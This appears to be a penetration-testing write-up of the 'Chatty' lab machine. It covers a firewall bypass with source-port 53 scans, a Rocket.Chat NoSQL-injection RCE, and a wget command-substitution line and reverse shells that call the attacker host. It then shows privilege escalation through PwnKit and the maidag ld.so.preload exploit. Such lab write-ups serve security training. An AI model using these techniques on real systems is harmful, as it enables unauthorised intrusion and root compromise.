 # Chatty
### Enumeration
There appears to be a firewall blocking incoming requests, as a standard `nmap` scan is showing that all ports are closed.

My next move was to scan UDP ports, but nothing immediately showed up as open, so whilst I left this scanning, I tried doing another TCP `SYN` scan but specified the source port as `53`, to trick the firewall into thinking the requests are DNS requests, in the hopes that it will permit such requests to pass through the firewall. This works!

```
# Nmap 7.92 scan initiated Sun Apr  3 17:05:50 2022 as: nmap -v -p- -sC -sV -sS -g 53 -oN tcp.out 192.168.51.164
Nmap scan report for 192.168.51.164
Host is up (0.0035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-XSS-Protection: 1
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: sameorigin
|     X-Instance-ID: m46MgKskNShhnKSiN
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept-Encoding
|     Date: Sun, 03 Apr 2022 21:06:03 GMT
|     Connection: close
...
```

##### 3000
A rocket.chat server. We register a user with the email `test@example.com`. Now if we visit `http://192.168.51.164:300/api/info`, we see that the version is `3.12.1`. Checking `searchsploit`, we find an unauthenticated NoSQL injection to RCE vulnerability for version 3.12.1! We need a low priv user's email, and the admin user's email, which we can find in `http://192.168.51.164:3000/channel/general` and is `admin@chatty.offsec`.

We modify the script to forego resetting the low priv user's password - since we created the account ourselves, we can just set the password to what the exploit expects manually (which is `P@$$w0rd!1234`).

When we run the script, we get a prompt `CMD:>`. I tried `id`, but got simply `{"success": false}` returned.

### Foothold

Digging into the script a bit more, the exploit takes advantage of RocketChat integrations, which allow creation of incoming and outgoing webhooks. These webhooks can have associated scripts which will be executed when the webhook is triggered.

So I tried typing `ping -c 2 192.168.51.200` into the prompt, making sure to start listening for ICMP requests with `tcpdump` first, and I saw 2 pings. So we have a blind RCE.

I used the old `wget http://192.168.51.200/$(which <CMD>)`, replacing `<CMD>` with both `nc` and `bash` to check for those two programs. Both were there, but neither `bash -i >& ...` nor `nc -e /bin/bash ...` reverse shells worked, so I used the netcat OpenBSD reverse shell on port 3000, in case of the firewall blocking anything.

We can immediately grab the user flag. The output of `env` contains the following interesting lines:

```sh
ADMIN_PASS=VeryStrongPassword2069
```

This doesn't appear to be the `rocketchat` or `root` users' password.

### Privilege Escalation
Linpeas flags sudo as vulnerable to [CVE-2021-4034](https://github.com/berdav/CVE-2021-4034). I git cloned the repository into `/dev/shm`, ran `make` and executed the exploit to get a root shell.

### Privilege Escalation (alternate)
When searching for SUID binaries, we see `/usr/local/sbin/maidag`. Searching for exploits, we find a [privesc vulnerability](https://github.com/bcoles/local-exploits/tree/master/CVE-2019-18862) for versions 2.0 - 3.7 (CVE-2019-18862):

```shell-session
$ maidag --version
maidag (GNU Mailutils) 3.7
Copyright (C) 2007-2019 Free Software Foundation, inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

There are two exploits, one for cron and the other which overwrites `ld.so.preload`. The description of the cron exploit says it won't work on Ubuntu since we don't fully control the written data and cron on Ubuntu will error out on the malformed line that this exploit will write.

By contrast, the comments in the other exploit say that `/etc/ld.so.preload` parsing is very forgiving and so will ignore the malformed line, so that's the one we'll use.

The idea behind the exploit is that we can write arbitrary data to the `ld.so.preload` file. This file has the following permissions:

```
-rw------- 1 root user 73 Dec 24 19:26 /etc/ld.so.preload
```

However, the dynamic loader doesn't get elevated privileges even when executing a SUID binary, so it can't read the file. Therefore, we can't get root to execute the payload we'll write simply by calling a SUID binary. Instead, we need to trigger root to execute something.

The exploit creates a binary at `/var/tmp/sh` that will initially be owned by the user that executes the exploit and will not be SUID. It also creates a library at `/tmp/libmaidag.so`, which when loaded will execute code to change the owner of `/var/tmp/sh` to `root:root` and make it SUID. Then it uses the vulnerability in `maidag` to add `/tmp/libmaidag.so` to `ld.so.preload`.

To trigger root execution, the script tries making a bunch of connections with the SMTP port. However, this port is closed on Chatty, so I changed the script to connect to port 22, because we can see from `ps -eaf --forest | grep root` that root is running the SSH daemon:

```shell-session
rocketchat@chatty:/dev/shm$ ./exploit.ldpreload.sh 
[+] /usr/local/sbin/maidag is set-uid
[*] Compiling...
[*] Writing stub to /tmp/stub ...
[*] Adding /tmp/libmaidag.so to /etc/ld.so.preload...
-rw------- 1 root rocketchat 70 Apr  4 21:27 /etc/ld.so.preload
[*] Wait for your shell to be set-uid root: /var/tmp/sh
[*] Spamming TCP connections to 127.0.0.1:25 ...
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
Invalid SSH identification string.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
Invalid SSH identification string.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
Invalid SSH identification string.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
Invalid SSH identification string.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
Invalid SSH identification string.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
Invalid SSH identification string.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
Invalid SSH identification string.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
Invalid SSH identification string.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
Invalid SSH identification string.
[+] Success:
-rwsr-xr-x 1 root root 16792 Apr  4 21:27 /var/tmp/sh
[*] Cleaning up ...
root@chatty:/dev/shm#
```